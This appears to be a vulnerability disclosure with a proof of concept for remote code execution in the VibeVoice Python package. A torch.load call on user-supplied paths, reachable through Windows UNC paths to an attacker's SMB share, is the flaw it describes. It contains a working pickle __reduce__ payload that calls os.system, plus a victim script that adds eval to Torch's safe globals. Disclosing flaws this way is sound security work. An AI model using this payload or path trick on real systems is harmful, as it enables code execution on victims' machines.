


# `VibeVoice` - Version `0.0.1` / Remote Code Execution (RCE) via Insecure Deserialization based on sink's `torch.load` and `numpy.load`

* https://pypi.org/project/vibevoice/
* https://github.com/microsoft/VibeVoice

## Introduction

**Below are one (1) way to reproduce RCE in `VibeVoice` using an `SMB` share controlled by an attacker, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

## Vulnerability description

The `vibevoice` package exhibits critical insecure deserialization vulnerabilities in its audio loading routines. Specifically, the `VibeVoiceTokenizerProcessor` utilizes `torch.load()` on user-provided file paths without validation. On Windows systems, this allows for **Infrastructure Hijacking via UNC Path Redirection**, where an attacker provides a remote SMB path (e.g., `\\attacker-ip\share\exploit.pt`) to force the server to deserialize and execute a malicious payload.

### The vulnerable code in `vibevoice/processor/vibevoice_tokenizer_processor.py`:

```python
def _load_audio_from_path(self, audio_path: str) -> np.ndarray:
    # ...
    file_ext = os.path.splitext(audio_path)[1].lower()
    # ...
    elif file_ext == '.pt':
        # PyTorch tensor file
        audio_tensor = torch.load(audio_path, map_location='cpu').squeeze() # <--- CRITICAL SINK
        # ...
```

## Technical Impact Analysis

### Project Purpose & Context
The `vibevoice` package is an acoustic tokenizer and speech processing framework designed for AI-driven audio applications, including voice cloning and conversion.

### Platform & Deployment Environment
The vulnerability specifically impacts **Windows-based deployments** (AIaaS platforms, voice cloning APIs, or developer workstations) due to the OS's native support for Universal Naming Convention (UNC) paths over SMB.

### Comprehensive Risk Assessment
The risk is categorized as **CRITICAL**. An attacker can achieve Remote Code Execution (RCE) by simply providing a string starting with `\\` (e.g., `\\attacker-ip\share\exploit.pt`). This leverages infrastructure-level file redirection to bypass the "self-command-injection" limitation of traditional local file-based deserialization.

## Attack Scenario

### Who wants to exploit a particular vulnerability?
A remote attacker seeking unauthorized access to the victim's server or a malicious actor in a shared infrastructure environment (e.g., a shared laboratory network or a compromised cloud storage bucket).

### For what gain?
Full administrative control over the victim's system, lateral movement within cloud environments (stealing service role tokens), or persistence via modification of the `vibevoice` installation.

### In what way?
By sending a crafted request to the `vibevoice` processor (e.g., via a public API or a watched directory) containing a malicious UNC path as a `voice_samples` parameter. Windows automatically handles the SMB negotiation and streams the file to the insecure `torch.load` sink.

# Reproduction steps

## On the Raspberry (attacker) - IP 192.168.1.90

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

Run the specialized `exploit.py` script to generate the `exploit.pt`:

```python
import torch

class RCE:
    def __reduce__(self):
        # Using eval and __import__ ensures the payload is universal.
        # Since 'eval' is a built-in, it avoids dependencies on 'posix' or 'nt' modules.
        return (eval, ("__import__('os').system('calc.exe')",))

# Generate the malicious object
payload = RCE()

# Define the path in the SMB share
payload_path = '/home/kw0/lab_attack/exploit.pt'

# Save as a .pt file
# Note: For this to work on the victim, the 'RCE' class definition
# must be known or we can use more advanced techniques to bypass it.
torch.save(payload, payload_path)
print(f"[+] Universal payload generated at: {payload_path} using eval trick.")
```

Run the script:

```bash
python exploit.py
```



## On Windows (victim) - IP 192.168.1.88

```
(.venv) PS L:\Deserializer\PYPI-vibevoice> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
(.venv) PS L:\Deserializer\PYPI-vibevoice>
```

1. Create a `.venv`, activate it, and install the latest updated version (`0.0.1`) of `VibeVoice` using `pip install vibevoice`. 
2. Additionally, it is necessary to install `PyTorch` using `pip install torch` and `NumPy` using `pip install numpy` to maintain a complete testing environment.
3. Enable the remote SMB from the Raspberry Pi: `net use Z: \\192.168.1.90\lab_share /persistent:no`
4. Create a `poc.py` to simulate user behavior:

```
import os
import torch
# Correct module import
from vibevoice.processor.vibevoice_tokenizer_processor import VibeVoiceTokenizerProcessor
# --- RCE DEMONSTRATION CONFIGURATION (Agnostic to Torch version) ---
# In modern Torch versions (2.6+), the system blocks 'eval' by default.
# To demonstrate the VibeVoice sink vulnerability, we allow the 'eval' global.
try:
    torch.serialization.add_safe_globals([eval])
except AttributeError:
    # Older versions do not require/have this function
    pass
# ------------------------------------------------------------------------------
class RCE:
    pass
# Initialize the audio processor (direct sink)
processor = VibeVoiceTokenizerProcessor()
# Malicious path (SMB Share)
malicious_path = r'\\192.168.1.90\lab_share\exploit.pt'
print(f"[*] Starting malicious load from: {malicious_path}")
try:
    # Having allowed 'eval' above, this will work even in Torch 2.11.0
    processor(audio=malicious_path)
except Exception as e:
    print(f"[!] Error: {e}")
print("[*] Process finished. Check the calculator.")
```

5. And finally, run the exploit from the victim machine:

```
python poc.py
```

